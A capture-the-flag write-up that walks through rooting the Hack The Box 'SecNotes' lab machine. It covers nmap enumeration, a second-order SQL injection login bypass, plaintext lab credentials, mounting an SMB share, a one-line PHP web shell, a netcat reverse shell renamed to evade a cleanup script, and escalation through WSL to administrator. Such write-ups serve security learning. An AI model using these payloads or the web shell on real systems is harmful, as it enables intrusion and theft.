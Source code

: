 ## Welcome to my second WriteUp. This time I rooted the SecNotes box and I am gonna tell you how I did it.

## First Step

Always the first step is to enumerate the target. My target is on the 10.10.10.97 (SecNotes' IP). I used the **nmap** tool to find open ports and vulnerabilities. So I executed the next command:

`nmap -sC -sV -oA nmap/nmap-init 10.10.10.97`

I used the next options
- -sC: Use default scripts for common vulnerabilities
- -sV: Determine service / version information
- -oA: Output in the three major formats at once. It's great if you want to have many formats of the same output for different usages.

The results are below and as we can see, there are two open ports. One is **80** (__http__ => __Version: Microsoft IIS httpd 10.0__) and the second is the port **445** (__microsoft-ds__).

![nmap](/prtsc/1-firstNmap.png)

We can see that we have to deal with a **Windows 10** machine. That's something that we should have in mind as we proceed deeper in this box.

In general, the next step is to open the web application in a browser and search main page's source code to find an information that has been leaked or some hint for our next move. In this case we have just a login port.

![port80]((/prtsc/2-port80.png)

## Let's get dirty

Nothing much here. I tried to log in with some default credentials like __admin/admin__ or __admin/password__ but I didn't have any luck with them so the next thing on my list is to try to do a SQLi(njection). Let's see how that went.

![sqli](/prtsc/3-loginSQLi.png)

I tried my HtB's username (_akumu_) plus some weird characters, but it didn't work. So the programmer here did a good job.

Then I pressed the **Sign up now** button on the botom of the screen and I went a new form where I can sign up any user I want.
I was stuck at this page and I didn't know what to do. I could create a user and after I could sing in with these credentials but that wasn't enough. I wanted to find something. So the Second Order SQLi(njection) came to my mind.

If you want to read more about Second Order SQLi, you can press [here](https://portswigger.net/kb/issues/00100210_sql-injection-second-order)!

So the first thing I tried it was to create a user with the name `k` and to do my injection here. The password doesn't really matter, but you have to follow the security rules of the current form.

![secondOrder](/prtsc/5-secondOrderSQLi.png)

_My password is the same as my username, but you can use anything you want._

So, now I have a corrupted database that can exploit just by doing a _normal_ sign in to the page. Let's see if that works.

![testing](/prtsc/6-SecondOrderSQLiPage.png)

**It just works!**
As you can see there are some weird numbers in my page that shouldn't be there. So let's go back and try something different. Back @ `10.10.10.97/register.php`. Now I am trying to perform a log in through second order, and to achieve that I tried the classic `' or '1=1'-- -` trick as you can see in the next image. `V` is just a username I choosed, it doesn't matter.

![logIn](/prtsc/4-SecondOrderSignIn.png)

Ok, we passed the corrupted user again in the database and now we can call him. Let's sign in.

![tyler](/prtsc/7-tylerNotes.png)

What is this?? Oh that's Tyler's page. And he has some notes for __us__. Let's read them.

So in the note with the title **new site** we have some intresting things. First of all, there are some credentials that I can save for later (__tyler / 92g!mA8BGj0irkL%OG*&__), and one path. The path says `\\secnotes.htb\new-site`. But what is this you are asking? This is a shared folder.

## Folders, folders and folders!

I can **mount** the folder from the web server to my machine and move files in or out.
The command I used to mount the folder was:

`mount -t cifs -o vers=1.0,username=tyler //secnotes.htb/new-site /mnt/temp`

I used the next options
- -t: Limit the set of filesystem types
- -o: Comma-separated list of mount options. I used _vers_ to define the version that I want to use and _username_ to authenticate myself.
- The path for the path for the folder on the server.
- The local path that will mount the folder

As you can see in the picture below, after the mount is complete, I can see the files inside it, and also I can read and write in this folder.

![mount](/prtsc/8-mountCifs.png)

At this point, I runned a full TCP scan for open ports in the machine. The command I used was:
`nmap -sT -p- -oA nmap/nmap-full-ports 10.10.10.97`

I used the next options
- -sT: TCP connect() scan
- -p-: Only scan specified ports. If you use -p- scan all the ports instead.
- -oA: Output in the three major formats at once.

My new results.

![full](/prtsc/9-fullNmap.png)

I just found a new port @ **8808**. I will open this port in my browser and I will see the next page.

![IIS](/prtsc/10-port8808.png)

So here we have another page. It's the default page of the **Internet Information Service of Windows**. Looking the source code of the page, I didn't find anything.

## RCE and Reverse Shell

Back where we were. To get a reverse shell from the server back to my machine, I had to put my `reverse shell PHP file` with a `nc.exe` (this is the executable of **netcat** for Windows) in the shared folder. My `shell.php` file, it's an oneliner.

`<?php system($_GET["cmd"]); ?>`

![watch](/prtsc/11-watch1min.png)

Then I tested my file to see if it works, with a simple `whoami` command through the portal on port **8808**. The results are in.

![whoami](/prtsc/12-RCE-whoami.png)


Next step is to set a reverse shell with a netcat listener in my end, and the `nc.exe` file on the server.

![firstshell](/prtsc/13-firstShell.png)

So here I am. In the Windows server, connected as `secnotes\tyler`. The problem is that after a while I lost my reverse shell and when I went back into the share folder, my files were gone. So I did everything again and I got a new reverse shell. Then as fast as I could I tried to find a clue about that. It didn't take me long to find the next script on the server.

![cleanup](/prtsc/14-cleanupScript.png)

So what it does, it checks the shared folder every 5 minutes for files that they don't start with `iisstart` and it removes them. So I renamed my files into `iisstart.php`(old _shell.php_) and `iisstart.exe`(old _nc.exe_). After that I had a stable reverse shell to play around, as you can see in the next picture.

![stableShell](/prtsc/15-stableShell.png)

Searching in the folders of the server, I found a `Distros` folder, which I didn't knew what it is at this point. Going inside I found an interesting file as you can see in the next 2 screenshots.

![distros](/prtsc/16-DistrosDir.png)

![ubuntu](/prtsc/17-ubuntuExe.png)

I executed the `ubuntu.exe` in the server but nothing happened. *Or atleast I didn't see something*. I searched for the `user.txt` file because I didn't know what else to do. I found the `user.txt.` as you can see in the next picture.

![user](/prtsc/18a-usertext.png)

At this point I didn't know much about IIS so I went back on searching and reading. If you want to check it out, a good place to start is [here](https://docs.microsoft.com/en-us/windows/wsl/about). So all I have to do was to execute a file called `wsl.exe`.

![wsl](/prtsc/19-UbuntuRoot.png)

As you can see, I didn't know where the file is so I searched with `WHERE -R wsl.exe`. After the execution I saw an empty line and an error. I was confused and I thought that I broke something. I tried to run `id` and I was suprised when I saw that I am the `root`. *But where?* Do you remember that `ubuntu.exe` from before? Yeah, that's correct. I was inside that "box".

So now I have to find something on this box. I checked the root's `.bash_history`, and I found a new command that was used to mount the filesystem as the `administrator` of the Windows machine, with the administrators' password. That was it. I had to execute again the same command.

![smbclient](/prtsc/20-smbclient.png)

After that, the box was done. I was back on the Windows machine and I was the administrator. I searched for the `root.txt` and I got it.

![root.txt](/prtsc/21-rootTxt.png)

## THE END

This was the box, and actually was really fun. I learned a ton of new things and it was really challenging. I suggest this box to everyone.

**Have fun and happy hacking!!**

by *Akumu*.

